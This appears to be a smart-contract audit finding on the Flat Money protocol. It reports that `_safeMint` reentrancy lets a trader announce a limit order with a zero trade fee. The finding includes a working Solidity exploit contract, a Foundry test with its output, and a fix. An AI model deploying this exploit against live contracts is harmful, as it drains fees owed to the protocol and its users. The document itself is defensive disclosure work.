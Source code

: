 Faint Opal Goblin

high

# The limit orders trade fee can be bypassed through reentrancy

## Summary

The leverage position is opened by minting the ERC721 to the trader. The issue lies in the fact that the minting process utilizes the [`_safeMint`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L441) function, which allows an attacker to execute a reentrancy attack and bypass limit order trade fees.

## Vulnerability Detail

When the leverage position is opened through the [`executeOpen`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L80-L140) function of the `LeverageModule` contract, the [`_mint`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L111) function is called, utilizing [`_safeMint`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L441), which could be exploited for a reentrancy attack. Immediately after minting the ERC721 token, the position is [updated in the vault](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L113-L121). This process allows a potential attacker to receive an ERC721 token before it will get associated with the position in the vault. This vulnerability can be exploited to open a leveraged position with a limit order, setting the trade fee to 0. This is because the [`tradeFee`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LimitOrder.sol#L62-L64) is calculated based on the [based on value `additionalSize`](https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L427-L429) of the position, which has not been set yet and is therefore `0`. This leads to incorrect calculations, resulting in the `tradeFee` being set to 0.

Following proof of concept presents attack where attacker opens leveraged position and the limit order with `0` trade fee.

Exploit code:
```solidity
interface ERC20 {
    function increaseAllowance(address spender, uint256 addedValue) external returns (bool);
}
interface DelayedOrder {
    function announceLeverageOpen(
        uint256 margin,
        uint256 additionalSize,
        uint256 maxFillPrice,
        uint256 keeperFee
    ) external; 
    function executeOrder(address account, bytes[] memory priceUpdateData) external payable;
}
interface OracleModule {
    function getPrice() external view returns (uint256 price, uint256 timestamp);
}
interface LeverageModule {
    function tokenIdNext() external view returns (uint256 tokenId);
}
interface ILimitOrder {
    function announceLimitOrder(uint256 tokenId, uint256 priceLowerThreshold, uint256 priceUpperThreshold) external;
}

contract ExploitReentrancy {
    ERC20 WETH;
    DelayedOrder delayedOrderProxy;
    OracleModule oracleModProxy;
    LeverageModule leverageModuleProxy;
    ILimitOrder limitOrderProxy;
    
    constructor(address _WETH, address _delayedOrderProxy, address _oracleModProxy, address _leverageModuleProxy, address _limitOrderProxy) payable {
        WETH = ERC20(_WETH);
        delayedOrderProxy = DelayedOrder(_delayedOrderProxy);
        oracleModProxy = OracleModule(_oracleModProxy);
        leverageModuleProxy = LeverageModule(_leverageModuleProxy);
        limitOrderProxy = ILimitOrder(_limitOrderProxy);
    }
    
    function stage1() external {
        uint256 margin = 10e18;
        uint256 additionalSize = 30e18;
        uint256 keeperFee = 0.001e18;

        WETH.increaseAllowance(address(delayedOrderProxy), type(uint256).max);

        (uint256 maxFillPrice, ) = oracleModProxy.getPrice();
        delayedOrderProxy.announceLeverageOpen(
            margin,
            additionalSize,
            maxFillPrice + 100, // add some slippage
            keeperFee
        );
    }

    function stage2(bytes[] memory priceUpdateData) external payable {
        delayedOrderProxy.executeOrder{value: 1}(address(this), priceUpdateData);
    }
    
    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) external returns (bytes4) {
        uint256 tokenId = leverageModuleProxy.tokenIdNext(); 
        limitOrderProxy.announceLimitOrder(
            tokenId,
            1234,
            999999
        );

        return this.onERC721Received.selector;
    }
}
```

Test case:
```solidity
function testExploitReentrancy() public {
    vm.startPrank(admin);
    leverageModProxy.setLevTradingFee(0.01e18);
    console2.log("regular trading fee", leverageModProxy.getTradeFee(30e18));
    vm.stopPrank();

    uint256 collateralPrice = 1000e8;

    vm.startPrank(alice);
    ExploitReentrancy exploit = new ExploitReentrancy(
        address(WETH),
        address(delayedOrderProxy),
        address(oracleModProxy),
        address(leverageModProxy),
        address(limitOrderProxy)
    );
    WETH.transfer(address(exploit), 100 ether);

    exploit.stage1();

    skip(uint256(vaultProxy.minExecutabilityAge())); // must reach minimum executability time

    uint256 oraclePrice = collateralPrice;
    bytes[] memory priceUpdateData = getPriceUpdateData(oraclePrice); 
    exploit.stage2{value: 1}(priceUpdateData);
    
    uint256 tokenId = leverageModProxy.tokenIdNext() - 1;
    FlatcoinStructs.Order memory order = limitOrderProxy.getLimitOrder(tokenId);

    FlatcoinStructs.LimitClose memory limitOrder = abi.decode(
        order.orderData,
        (FlatcoinStructs.LimitClose)
    );
    console2.log("tokenId", limitOrder.tokenId);
    console2.log("priceLower", limitOrder.priceLowerThreshold);
    console2.log("priceUpper", limitOrder.priceUpperThreshold);
    console2.log("tradeFee", limitOrder.tradeFee);

}
```

Output:
```shell
[PASS] testExploitReentrancy() (gas: 1612703)
Logs:
  regular trading fee 300000000000000000
  tokenId 2
  priceLower 1234
  priceUpper 999999
  tradeFee 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 34.66ms
```

## Impact

The severity has been set to high, as it is easy to create a separate service that could enable the opening of leverage positions with limit orders (stop loss and take profit) at a 0 trade fee, allowing the siphoning of value from the Flat Money protocol.

## Code Snippet

- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L111-L121
- https://github.com/sherlock-audit/2023-12-flatmoney/blob/main/flatcoin-v1/src/LeverageModule.sol#L441

## Tool used

Manual Review

## Recommendation

It is recommended to adhere to the checks-effects-interactions pattern by first setting the position in the vault and then triggering the logic within the _mint function. An alternative solution is to use the regular _mint function instead of _safeMint, as the latter is susceptible to reentrancy attacks.
